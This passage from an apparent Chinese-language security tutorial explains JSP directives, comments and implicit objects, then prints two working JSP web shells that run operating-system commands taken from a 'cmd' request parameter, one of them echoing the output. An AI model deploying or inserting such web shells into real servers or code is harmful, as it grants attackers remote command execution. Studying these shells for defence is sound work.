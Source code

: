 ### 1.2.3、JSP指令

JSP指令用来设置与整个JSP页面相关的属性。下面有三种JSP指令
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712565850920-e7ab7b95-6c54-434e-ac2e-64552c01bcad.png)
比如我们能通过page指令来设置jsp页面的编码格式

```java
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
```

### 1.2.4、JSP注释

```java
<%-- 注释内容 --%>
```

### 1.2.5、JSP内置对象

`JSP`有九大内置对象，他们能够在客户端和服务器端交互的过程中分别完成不同的功能。其特点如下

- 由 `JSP` 规范提供，不用编写者实例化
- 通过 `Web` 容器实现和管理
- 所有 `JSP` 页面均可使用
- 只有在脚本元素的表达式或代码段中才能使用

![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712623226685-a44c4825-ed6b-4ee9-adeb-403314ff0b27.png)

# 2、JAVA木马

传统的`JSP`木马实现

```java
<% Runtime.getRuntime().exec(request.getParameter("cmd"));%>
```

上面是最简单的一句话木马，没有回显，适合用来反弹`shell`。下面是一个带回显的`JSP`木马

```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<% if(request.getParameter("cmd")!=null){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
 
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(in));
    String line;
    PrintWriter printWriter = response.getWriter();
    printWriter.write("<pre>");
    while ((line = bufferedReader.readLine()) != null){
        printWriter.println(line);
    }
    printWriter.write("</pre>");
 
}
%>
```
